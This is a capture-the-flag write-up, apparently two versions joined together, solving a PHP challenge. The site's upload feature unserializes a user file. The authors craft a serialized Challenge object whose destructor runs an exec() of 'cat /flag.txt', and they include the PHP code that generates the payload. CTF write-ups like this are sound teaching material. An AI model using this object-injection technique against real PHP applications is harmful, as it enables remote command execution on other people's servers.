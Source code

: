 First of all, it is convinient to look for fthe function unserialize with ctrl+f+shift
then, we will find it in the file upload_user.php
Here, basically, there is a button to load a file and it unserializes the file received.
The trick is to pass a file with a Challenge object serialized instead of a User.
In this way, it is possible to use __destruct() -> stop() -> exec()
notice that the source code for the lasses is in data.php.
However, with exec you can execute  linux command.
The following code is the one used to serialized the object:
<?php
class Challenge{

  public $name;
  public $description;
  public $setup_cmd="not null";
  public $stop_cmd="cat /flag.txt";

  function __construct($name, $description){
    $this->name = $name;
    $this->description = $description;
  }
}

$user = new Challenge("cane2","a");
//print_r($user);
echo serialize($user);
?> 


## Challange
Read the flag `flag.txt`. 
## Solution
In this website we can download the user as serialized object and then uploaded deserializing it. In data.php is present `Challange` class which is never used in the code but has two methods `start()` and `stop()` which can execute commands. The `start()` method is never invoked, but `stop()` is called when `__decostruct`. If we craft the content of the upload file by serializing the class in this way:
```php
<?php

class Challenge{
  //WIP Not used yet.
  public $name;
  public $description;
  public $setup_cmd=NULL;
  // public $check_cmd=NULL;
  public $stop_cmd="cat /flag.txt";
}

$r = new Challenge();
echo serialize($r);

?>
```
We obtain the flag when we upload the fake user, because after the data is unserialized the object reference is destroyed, calling the decostructor, executing `cat /flag.txt`.
